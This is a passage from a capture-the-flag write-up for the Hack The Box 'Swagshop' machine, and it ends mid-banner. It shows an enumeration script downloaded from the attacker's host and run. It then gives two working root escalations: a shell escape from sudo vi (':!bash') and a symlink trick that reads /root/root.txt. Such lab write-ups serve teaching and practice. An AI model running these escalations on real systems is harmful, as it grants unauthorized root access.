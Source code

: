 On the `Swagshop` machine:
{% highlight bash %}
$ wget http://10.10.14.140/LinEnum.sh
--2019-09-07 05:03:29--  http://10.10.14.140/LinEnum.sh
Connecting to 10.10.14.140:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 45651 (45K) [text/x-sh]
Saving to: 'LinEnum.sh'

     0K .......... .......... .......... .......... ....      100% 82.5K=0.5s

2019-09-07 05:03:31 (82.5 KB/s) - 'LinEnum.sh' saved [45651/45651]
$ chmod 777 LinEnum.sh
$ ./LinEnum.sh
{% endhighlight %}

`LinEnum.sh` revealed that `www-data` had sudo privileges.
```
User www-data may run the following commands on swagshop:
    (root) NOPASSWD: /usr/bin/vi /var/www/html/*


[+] Possible sudo pwnage!
/usr/bin/vi
```


`www-data` is only able to execute `/usr/bin/vi` on a file in `/var/www/html/` as `root`. To read the root flag, there are actually 2 ways to go about doing this.

# root.txt (1)
`vi` actually has the ability to open a shell inside it by entering `:!bash`.
{% highlight bash %}
$ sudo /usr/bin/vi /var/www/html/a
~
:!bash
whoami
root
cat /root/root.txt
c2b0XXXXXXXXXXXXXXXXXXXXXXXXXXXX

   ___ ___
 /| |/|\| |\ 
/_| ´ |.` |_\           We are open! (Almost)
  |   |.  |
  |   |.  |         Join the beta HTB Swag Store!
  |___|.__|       https://hackthebox.store/password

                   PS: Use root flag as password!
{% endhighlight %}

# root.txt (2)
If we create a symbolic link in `/var/www/html` that references the root flag, we will be able to trick `sudo` into thinking we are simply opening a file in `/var/www/html/` with `vi`!
{% highlight bash %}
$ ln -s /root/root.txt /var/www/html/root.txt
$ sudo vi /var/www/html/root.txt
c2b0XXXXXXXXXXXXXXXXXXXXXXXXXXXX

   ___ ___
 /| |/|\| |\ 
/_| ´ |.` |_\           We are open! (Almost)